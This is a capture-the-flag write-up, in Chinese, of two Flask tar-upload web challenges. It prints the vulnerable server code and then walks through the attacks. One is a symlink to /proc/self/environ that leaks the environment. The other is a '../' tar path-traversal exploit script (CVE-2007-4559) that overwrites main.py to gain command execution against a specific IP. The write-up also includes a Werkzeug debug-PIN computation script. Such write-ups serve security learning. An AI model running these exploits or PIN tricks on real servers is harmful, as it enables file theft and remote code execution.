



web check(V1)&&check(V2) 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 from flask import Flask,requestimport tarfileimport osapp = Flask(__name__) app.config['UPLOAD_FOLDER' ] = './uploads' app.config['MAX_CONTENT_LENGTH' ] = 100 * 1024 ALLOWED_EXTENSIONS = set (['tar' ]) def allowed_file (filename ): return '.' in filename and \ filename.rsplit('.' , 1 )[1 ].lower() in ALLOWED_EXTENSIONS @app.route('/' def index (): with open (__file__, 'r' ) as f: return f.read() @app.route('/upload' , methods=['POST' ] def upload_file (): if 'file' not in request.files: return '?' file = request.files['file' ] if file.filename == '' : return '?' print (file.filename) if file and allowed_file(file.filename) and '..' not in file.filename and '/' not in file.filename: file_save_path = os.path.join(app.config['UPLOAD_FOLDER' ], file.filename) if (os.path.exists(file_save_path)): return 'This file already exists' file.save(file_save_path) else : return 'This file is not a tarfile' try : tar = tarfile.open (file_save_path, "r" ) tar.extractall(app.config['UPLOAD_FOLDER' ]) except Exception as e: return str (e) os.remove(file_save_path) return 'success' @app.route('/download' , methods=['POST' ] def download_file (): filename = request.form.get('filename' ) if filename is None or filename == '' : return '?' filepath = os.path.join(app.config['UPLOAD_FOLDER' ], filename) if '..' in filename or '/' in filename: return '?' if not os.path.exists(filepath) or not os.path.isfile(filepath): return '?' with open (filepath, 'r' ) as f: return f.read() @app.route('/clean' , methods=['POST' ] def clean_file (): os.system('/tmp/clean.sh' ) return 'success' if __name__ == '__main__' : app.run(host='0.0.0.0' , debug=True , port=80 )
对软链接没有任何限制，直接非预期了
想着flask算pin，先看了下env
1 2 3 ln -s /proc/self/environ 1 tar -zcvf 1.tar 1 #-z 用于压缩软连接 POST上传

访问得到flag
check(Revenge) 侥幸非预期拿了个一血😋
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from flask import Flask,requestimport tarfileimport osapp = Flask(__name__) app.config['UPLOAD_FOLDER' ] = './uploads' app.config['MAX_CONTENT_LENGTH' ] = 100 * 1024 ALLOWED_EXTENSIONS = set (['tar' ]) def allowed_file (filename ): return '.' in filename and \ filename.rsplit('.' , 1 )[1 ].lower() in ALLOWED_EXTENSIONS @app.route('/' def index (): with open (__file__, 'r' ) as f: return f.read() @app.route('/upload' , methods=['POST' ] def upload_file (): if 'file' not in request.files: return '?' file = request.files['file' ] if file.filename == '' : return '?' if file and allowed_file(file.filename) and '..' not in file.filename and '/' not in file.filename: file_save_path = os.path.join(app.config['UPLOAD_FOLDER' ], file.filename) if (os.path.exists(file_save_path)): return 'This file already exists' file.save(file_save_path) else : return 'This file is not a tarfile' try : tar = tarfile.open (file_save_path, "r" ) tar.extractall(app.config['UPLOAD_FOLDER' ]) except Exception as e: return str (e) os.remove(file_save_path) return 'success' @app.route('/download' , methods=['POST' ] def download_file (): filename = request.form.get('filename' ) if filename is None or filename == '' : return '?' filepath = os.path.join(app.config['UPLOAD_FOLDER' ], filename) if '..' in filename or '/' in filename: return '?' if not os.path.exists(filepath) or not os.path.isfile(filepath): return '?' if os.path.islink(filepath): return '?' if oct (os.stat(filepath).st_mode)[-3 :] != '444' : return '?' with open (filepath, 'r' ) as f: return f.read() @app.route('/clean' , methods=['POST' ] def clean_file (): os.system('su ctf -c /tmp/clean.sh' ) return 'success' if __name__ == '__main__' : app.run(host='0.0.0.0' , debug=True , port=80 )
os.path.islink对软链接进行了限制，没找到可绕过的办法(开始异想天开想着构造双层tar来看文件，直接报错嘞，正好看到文件名main.py ，python 3.10 )
但是可以利用CVE-2007-4559 ../来覆盖远程服务器上的任何文件
非预期 因为flask 在debug模式开启后会auto_reload ，所以可利用此特性，覆盖main.py
在原来的基础上加个这个
exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 import tarfileimport requestsdef change_name (tarinfo ): tarinfo.name = "../" + tarinfo.name return tarinfo with tarfile.open ("exploit.tar" , "w:xz" ) as tar: tar.add("main.py" , filter =change_name) def upload (): res = requests.post(url=url, files={"file" : open ("exploit.tar" , 'rb' )}) url='http://1.14.71.254:28045/upload' upload() while 1 : a=input ('bash:' ) r=requests.post(url=url+'?a=' +a) print (r.text)

预期 预期是利用覆盖/tmp/clean.sh，然后访问/clean getshell
然后你会发现flag是root权限才能读的
所以就只能flask算pin 来得到root权限了
常用反弹shell的命令都没弹成功，不知道怎么回事，直接root权限读文件吧
用户为肯定为root 了
app.py 的位置上面已得到
算pin(详见上篇文章 )
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 import hashlibfrom itertools import chainprobably_public_bits = [ 'root' 'flask.app' , 'Flask' , '/usr/local/lib/python3.10/site-packages/flask/app.py' ] private_bits = [ '2485376925239' , '96cec10d3d9307792745ec3b85c8962079be847c1c22f74bae99e457863e13fd4c60de47472f2a8d533525466d7c34de' ] h = hashlib.sha1() for bit in chain(probably_public_bits, private_bits): if not bit: continue if isinstance (bit, str ): bit = bit.encode("utf-8" ) h.update(bit) h.update(b"cookiesalt" ) cookie_name = f"__wzd{h.hexdigest()[:20 ]} " num = None if num is None : h.update(b"pinsalt" ) num = f"{int (h.hexdigest(), 16 ):09d} " [:9 ] rv=None if rv is None : for group_size in 5 , 4 , 3 : if len (num) % group_size == 0 : rv = "-" .join( num[x : x + group_size].rjust(group_size, "0" ) for x in range (0 , len (num), group_size) ) break else : rv = num print (rv)
rce

donate
感谢鼓励